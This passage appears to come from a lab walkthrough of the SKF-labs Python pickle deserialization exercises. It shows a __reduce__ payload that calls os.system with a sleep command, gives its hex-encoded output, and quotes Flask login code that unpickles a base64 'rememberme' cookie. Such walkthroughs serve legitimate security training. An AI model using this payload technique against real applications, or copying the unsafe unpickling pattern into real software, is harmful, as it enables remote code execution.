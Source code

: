 ```python
import os
import pickle
import binascii

class test123():
	def __reduce__(self):
		return (os.system, ('sleep 5',))

data123 = pickle.dumps(test123())
print(binascii.hexlify(data123))
```
- Run the code again.
```bash
python3 descee.py
b'80049522000000000000008c05706f736978948c0673797374656d9493948c07736c656570203594859452942e'
```
- Copy only the value and submit the request again. Since we have told the application to sleep for 5 seconds, it will respond after 5 seconds indicating the command execution on it. 

![image](https://user-images.githubusercontent.com/47778874/226198194-da71f745-bbea-4e76-a9ac-935187a69c3e.png)

### Deserialization on Python: DES-Pickle-2
- Clone the same github repository as above.

```bash
git clone https://github.com/blabla1337/skf-labs.git
cd skf-labs/python/DES-Pickle-2
rm rev.py # To prevent spoiler

python3 Login.py
```
- Open the provided URL on a browser.
- The application seems to have a login and registration page.
- Let's directly jump into the source code. Open the `Login.py` file.
- Between line 26 and 34 we can see that the application has implemented python pickle module.

```python
@app.route("/login", methods=['GET', 'POST'])
def login():
    sqli  = Classes()
    if 'rememberme' in request.cookies:
        b64=request.cookies.get('rememberme')
        a = pickle.loads(base64.b64decode(b64))
        session['username'] = a.username
        session['loggedin'] = True
        return render_template("loggedin.html")
```
- Here the code shows that whenever a **GET** or **POST** method is initiated on the **/login** endpoint, the **login()** method is triggered. The parameter **rememberme** is expected on the cookies and after decompiling the cookies with base64 decode, it is passed into the **pickle.load()** method. 
- Let's create a python script.
